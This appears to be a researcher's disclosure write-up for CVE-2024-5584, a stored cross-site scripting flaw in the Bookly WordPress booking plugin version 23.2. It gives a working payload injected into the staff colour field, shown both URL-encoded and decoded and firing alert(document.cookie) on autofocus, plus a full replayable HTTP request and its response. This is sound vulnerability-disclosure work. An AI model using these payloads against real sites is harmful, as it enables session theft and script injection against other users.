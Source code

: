 
  author: 'Daniel',
  date: '2024-07-10',
  title: 'WordPress Online Booking and Scheduling Plugin',
  description:
    'CVE-2024-5584',
}

  title: article.title,
  description: article.description,
}


### Plugin: WordPress Online Booking and Scheduling Plugin – Bookly

- **Version:** 23.2
- **Author:** [Nota-Info](https://www.booking-wp-plugin.com/?utm_source=bookly_admin&utm_medium=plugins_page&utm_campaign=plugins_page)
- **Last Updated:** 1 month ago
- **Requires WordPress Version:** 3.7 or higher
- **Compatible up to:** 6.5.3
- **Requires PHP Version:** 5.3.7 or higher
- **Active Installations:** 70,000+

https://wordpress.org/plugins/bookly-responsive-appointment-booking-tool/


### Description

The Bookly plugin for WordPress is vulnerable to Stored Cross-Site Scripting in versions up to, and including, 23.2 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with subscriber-level access and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page.

**CVSS Vector**[CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N)

## Reproduction

### Adding a staff account

URI: /wp-admin/admin.php?page=bookly-staff
I've added an account with my wp user with subscriber privileges.

<Image src={Image1} alt="" />

The colour picker displays the payload however manipulating the request in Burpsuite is recommended, I imagine some DOM based sanitization occurs through the picker.
<Image src={Image2} alt="" />

### Edit the profile and intercept the request with Burpsuite

<Image src={Image3} alt="" />

### Using autofocus to execute Javascript on page load.

Quite a few event payloads work such as "onhover", "mouseover" etc. Autofocus in combination with onfocus proved to be the most reliable.  

Payload: 
```
%7B%22full%5Fname%22%3A%220xSubscriber%200xSubscriber%22%2C%22email%22%3A%220xbishop%2001%40proton%2Eme%22%2C%22info%22%3A%22%7Bstaff%5Finfo%7D%22%2C%22color%22%3A%22pink%3B%5C%22%20onfocus%3D%27javascript%3Aalert%28document%2Ecookie%29%27%20autofocus%20id%3Dx%20tabindex%3D2%27%22%2C%22visibility%22%3A%22public%22%2C%22id%22%3A%221%22%2C%22attachment%5Fid%22%3A%22%22%2C%22phone%22%3A%22%22%7D
```

Decoded:
```
{"full_name":"0xSubscriber 0xSubscriber","email":"0xbishop 01@proton.me","info":"{staff_info}","color":"pink;\" onfocus='javascript:alert(document.cookie)' autofocus id=x tabindex=2'","visibility":"public","id":"1","attachment_id":"","phone":""}
```
### Payload successfully executes for other users


<Image src={Image4} alt="" />


### Appendix

Text Request for easy replication


``` 
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 399
sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:1337
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:1337/wp-admin/admin.php?page=bookly-staff
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_32f00fe45378e26b2fea13815ec4c1b0=0xSubscriber%7C1716471661%7Cw7JeytpHOj2S9olGwrA3fK86rZLzHGZNcIKan2QrArX%7C9e62b007202046359282eb87745216e17f9a18392b74d1abecc2825ef928a4ee; bookly_cal_view=timeGridDay; wp-settings-3=uploader%3D1; wp-settings-time-3=1711260343; PHPSESSID=a3e822af0b833054983410ec8889c0ee; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_32f00fe45378e26b2fea13815ec4c1b0=0xSubscriber%7C1716471661%7Cw7JeytpHOj2S9olGwrA3fK86rZLzHGZNcIKan2QrArX%7C4e3349f52f4808046edb3967f96ade82d9044a5783c4fab007d2190aaf017f45; wp-settings-time-2=1716298919
Connection: close

action=bookly_update_staff&csrf_token=3623d338db&json_data=%7B%22full%5Fname%22%3A%220xSubscriber%200xSubscriber%22%2C%22email%22%3A%220xbishop%2001%40proton%2Eme%22%2C%22info%22%3A%22%7Bstaff%5Finfo%7D%22%2C%22color%22%3A%22pink%3B%5C%22%20onclick%3D%27javascript%3Aalert%281%29%27%22%2C%22visibility%22%3A%22public%22%2C%22id%22%3A%221%22%2C%22attachment%5Fid%22%3A%22%22%2C%22phone%22%3A%22%22%7D
```

Text Response

``` json
HTTP/1.1 200 OK
Date: Tue, 21 May 2024 14:45:03 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.18
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Pragma: no-cache
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Length: 598
Connection: close
Content-Type: application/json; charset=UTF-8

{"success":true,"data":{"staff":{"id":"1","wp_user_id":"2","category_id":null,"attachment_id":null,"full_name":"0xSubscriber 0xSubscriber","email":"0xbishop 01@proton.me","phone":null,"info":"{staff_info}","working_time_limit":null,"visibility":"public","position":"1","google_data":null,"outlook_data":null,"time_zone":null,"zoom_authentication":"default","zoom_oauth_token":null,"icalendar":"0","icalendar_token":"0f5524d6a688977dcb0446a303a5d99f","icalendar_days_before":"365","icalendar_days_after":"365","color":"pink;\" onclick='javascript:alert(1)'","gateways":null,"cloud_msc_token":null}}}
```

